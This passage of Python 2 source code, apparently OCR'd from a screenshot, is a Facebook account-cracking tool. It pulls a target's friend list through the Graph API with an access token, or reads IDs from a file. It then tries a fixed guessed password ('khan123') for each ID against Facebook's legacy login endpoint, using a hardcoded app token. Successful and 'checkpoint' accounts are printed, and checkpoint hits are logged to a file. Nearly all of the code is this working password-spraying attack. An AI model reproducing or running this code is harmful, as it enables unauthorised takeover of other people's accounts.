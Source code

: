                          print"\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mName\033[1;91m :\033[1;97m "+op["name"] 
                 except KeyError: 
                         print"\033[1;96m \x1b[1;91mID Not Found!" 
                         raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]") 
                         super() 
                 jalan('\033[1;96m \033[1;93mGetting IDs \033[1;97m...') 
                 r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket) 
                 z = json.loads(r.text) 
                 for i in z['data']: 
                         id.append(i['id']) 
         elif peak =="3": 
                 os.system('clear') 
                 print logo 
                 print 42*"\033[1;96m=" 
                 try: 
                         idlist = raw_input('\x1b[1;96m \x1b[1;93mEnter File Path  \x1b[1;91m: \x1b[1;97m') 
                         for line in open(idlist,'r').readlines(): 
                                 id.append(line.strip()) 
                 except IOError: 
                         print '\x1b[1;96m \x1b[1;91mFile Not Found' 
                         raw_input('\n\x1b[1;96m[ \x1b[1;97mBack \x1b[1;96m]') 
                         super() 
         elif peak =="0": 
                 menu() 
         else: 
                 print "\033[1;96m \x1b[1;91mFill in correctly" 
                 pilih_super() 
  
         print "\033[1;96m \033[1;93mTotal IDs \033[1;91m: \033[1;97m"+str(len(id)) 
         jalan('\033[1;96m \033[1;93mStarting \033[1;97m...') 
         titik = ['.   ','..  ','... '] 
         for o in titik: 
                 print("\r\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1) 
         print 
         print('\x1b[1;96m \x1b[1;93mTo Stop Process Press CTRL Then Press z') 
         print 42*"\033[1;96m=" 
  
  
         def main(arg): 
                 global cekpoint,oks 
                 user = arg 
                 try: 
                         os.mkdir('out') 
                 except OSError: 
                         pass 
                 try: 
                         a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket) 
                         b = json.loads(a.text) 
                         pass1 = ('khan123') 
                         data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") 
                         q = json.load(data) 
                         if 'access_token' in q: 
                                 print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1 
                                 oks.append(user+pass1) 
                         else: 
                                 if 'www.facebook.com' in q["error_msg"]: 
                                         print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m |\x1b[1;97m ' + pass1 
                                         cek = open("out/checkpoint.txt", "a") 
                                         cek.write(user+"|"+pass1+"\n") 
                                         cek.close() 